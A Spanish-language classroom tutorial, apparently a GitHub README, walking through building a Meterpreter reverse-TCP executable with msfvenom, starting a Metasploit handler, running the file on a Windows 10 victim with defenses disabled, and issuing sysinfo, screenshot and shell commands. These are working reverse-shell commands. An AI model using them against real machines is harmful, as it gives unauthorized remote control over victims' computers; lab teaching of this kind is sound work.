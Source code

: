 # ✅ **Payload malicioso en Windows 10 con Metasploit**
______________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________
Aclaración: Este método no necesita que Windows 10 sea vulnerable. Simplemente simula lo que pasaría si un usuario hace clic en un archivo malicioso, como ocurre con malware real.
______________________________________
## 🧰 **Requisitos del entorno de laboratorio**
- 💻 [Kali Linux (máquina atacante).](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina víctima: Windows 10  sin parches adicionales de seguridad, si es posible.](https://archive.org/details/windows-10-original)
-	Ambas máquinas en la misma red (virtual o real)
-	Desactivar antivirus y firewall en Windows 10 (solo para pruebas)
________________________________________
## 🧪 **PASO A PASO: Payload con Metasploit en Windows 10**
________________________________________
**🔹1. Crear el archivo malicioso con msfvenom**
<pre> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o virus.exe </pre>
-	**LHOST:** [IP_de_Kali]
-	**LPORT:** el puerto por donde escucharás
-	**-f exe:** formato ejecutable de Windows
- **-o:** nombre del archivo
________________________________________
**🔹 2. Iniciar Metasploit**
<pre>msfconsole</pre>
________________________________________
**🔹 3. Configurar el listener (handler)**
<pre> use exploit/multi/handler </pre>
<pre> set PAYLOAD windows/meterpreter/reverse_tcp </pre>
<pre> set LHOST [IP_PC_CON_KALI] </pre>
<pre> set LPORT 4444 </pre>
<pre> exploit </pre>
________________________________________
**🔹 4. Enviar o ejecutar el archivo en Windows 10**
-	Copia el archivo **virus.exe** a la máquina Windows (por red compartida, USB, etc.).
-	Ejecuta el archivo manualmente (como si un usuario lo abriera por accidente).
________________________________________
**🔹 5. Resultado esperado**
En Kali deberías ver algo como:
```bash
[*] Meterpreter session 1 opened
```

Ahora puedes interactuar con la víctima:
```bash
meterpreter > sysinfo
meterpreter > screenshot
meterpreter > shell
```
________________________________________
## ⚠️ Precauciones para clase
- No conectar las máquinas a Internet.
-	Ejecutarlo en máquinas virtuales cerradas y restaurables.
-	Dejar en claro que esto no explota una falla del sistema, sino que aprovecha un descuido del usuario (ingeniería social).
________________________________________
## 📚 ¿Qué se enseña con este exploit?
-	Cómo se usa Metasploit en la práctica.
-	Cómo un atacante puede obtener acceso con un simple ejecutable.
-	La importancia de no ejecutar archivos desconocidos.
-	Cómo funciona una shell reversa (reverse shell).
